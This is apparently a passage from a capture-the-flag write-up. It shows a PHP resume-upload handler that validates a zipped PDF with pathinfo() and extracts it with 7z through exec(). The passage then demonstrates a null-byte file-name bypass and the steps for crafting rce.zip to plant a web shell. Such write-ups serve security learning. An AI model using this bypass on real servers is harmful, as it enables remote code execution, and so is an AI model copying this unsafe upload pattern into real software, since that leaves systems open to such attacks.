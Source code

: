 ```php
<?php
if(isset($_POST['submit'])) {
  // Get the uploaded zip file
  $zipFile = $_FILES['zipFile']['tmp_name'];
  if ($_FILES["zipFile"]["size"] > 300000) {
    echo "<p>File size must be less than 300,000 bytes.</p>";
  } else {
    // Create an md5 hash of the zip file
    $fileHash = md5_file($zipFile);
    // Create a new directory for the extracted files
    $uploadDir = "uploads/$fileHash/";
    // Extract the files from the zip
    $zip = new ZipArchive;
    if ($zip->open($zipFile) === true) {
      if ($zip->count() > 1) {
      echo '<p>Please include a single PDF file in the archive.<p>';
      } else {
      // Get the name of the compressed file
      $fileName = $zip->getNameIndex(0);
      if (pathinfo($fileName, PATHINFO_EXTENSION) === "pdf") {
        mkdir($uploadDir);
echo exec('7z e '.$zipFile. ' -o' .$uploadDir. '>/dev/null');
        echo '<p>File successfully uploaded and unzipped, a staff member will review your resume as soon as possible. Make sure it has been uploaded correctly by accessing the following path:</p><a href="'.$uploadDir.$fileName.'">'.$uploadDir.$fileName.'</a>'.'</p>';
      } else {
        echo "<p>The unzipped file must have  a .pdf extension.</p>";
      }
     }
    } else {
      echo "Error uploading file.";
    }

  }
}
?>
```

The code checks if the archive contains a PDF file using the `pathinfo()` function which can be bypassed using a [null byte](https://www.thehacker.recipes/web/inputs/null-byte-injection) (\x00).

```php
php > echo pathinfo("shell.php%00.pdf", PATHINFO_EXTENSION);
PHP Parse error:  syntax error, unexpected token "echo", expecting "," or ";" in php shell code on line 2
php > echo pathinfo("shell.php\x00.pdf", PATHINFO_EXTENSION);
pdf
```

To add in a null byte, I used the char `#` as a place holder and then replaced it using iamhex.

```bash
> zip rce.zip webshell.php\#.pdf
> strings rce.zip
webshell.php#.pdfUT
...snip...
webshell.php#.pdfUT
> imhex rce.zip &
```
